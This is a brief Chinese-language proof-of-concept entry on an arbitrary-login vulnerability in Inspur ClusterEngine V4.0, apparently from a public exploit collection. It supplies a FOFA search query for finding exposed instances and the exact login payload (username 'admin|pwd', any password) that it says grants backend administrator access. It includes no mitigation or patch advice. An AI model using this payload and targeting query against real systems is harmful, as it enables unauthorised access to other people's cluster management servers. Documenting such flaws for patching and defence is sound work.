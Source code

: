 # 浪潮ClusterEngineV4.0 任意用户登录漏洞

## 漏洞描述

浪潮ClusterEngineV4.0 存在任意用户登录漏洞，构造恶意的用户名和密码即可获取后台权限

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## FOFA

```
title="TSCEV4.0"
```

## 漏洞复现



登录页面如下



![](./images/202202091850344.png)



```plain
USER： admin|pwd
PASS:  任意
```



成功登陆后台

部分功能是无法使用的



![](./images/202202091850228.png)